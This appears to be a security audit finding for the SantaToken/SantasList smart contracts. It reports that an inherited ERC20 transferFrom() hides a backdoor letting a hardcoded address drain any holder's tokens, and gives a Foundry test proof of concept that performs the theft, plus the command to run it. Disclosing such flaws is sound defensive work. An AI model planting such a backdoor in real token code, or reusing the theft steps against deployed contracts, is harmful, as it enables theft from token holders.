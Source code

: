 
### [HIGH-1] malicious transferFrom function that SantaToken Inherits from.

**Description**

`ERC20` contract that `SantaToken.sol` inherits, is malicious because of how `tranferFrom()` function is Built. if we take a look at the `tranferFrom()` function, this `0x815F577F1c1bcE213c012f166744937C889DAF17` Address Can Drain a given User Balance and send it to him or anyone else.

**Impact**

`0x815F577F1c1bcE213c012f166744937C889DAF17` Address Can Steal Any Address Balance that holds `SantaToken`s.

**Proof of Concepts**

```javascript
    function testMaliciousTransferFrom() external {
        // santa sets `user` status to `EXTRA_NICE`.
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.startPrank(user);
        vm.warp(1_703_500_000);
        // `user` collects present receives 1 NFT plus 1e18 SantaTokens.
        santasList.collectPresent();
        vm.stopPrank();

        console2.log("Current SantaToken `user` Balance After Collecting Present: ", santaToken.balanceOf(user));
        assertEq(santaToken.balanceOf(user), 1e18);

        // malicious actor steals `user` balance with transferFrom().
        address maliciousActor = 0x815F577F1c1bcE213c012f166744937C889DAF17;
        vm.startPrank(maliciousActor);
        console2.log("MaliciousActor Comes in Tries to Call transferFrom() to Steal `user` balance.");
        santaToken.transferFrom(user, maliciousActor, 1e18);
        vm.stopPrank();

        console2.log("Current SantaToken `user` Balance After MaliciousActor Stole his/her Tokens: ", santaToken.balanceOf(user));
        console2.log("Current SantaToken `maliciousActor` Balance After Stealing it From `user` with transferFrom() function: ", santaToken.balanceOf(maliciousActor));
        assertEq(santaToken.balanceOf(user), 0);
        assertEq(santaToken.balanceOf(maliciousActor), 1e18);
    }
```

run the test with following command:

```javascript
    forge test --match-test testMaliciousTransferFrom -vvvv
```
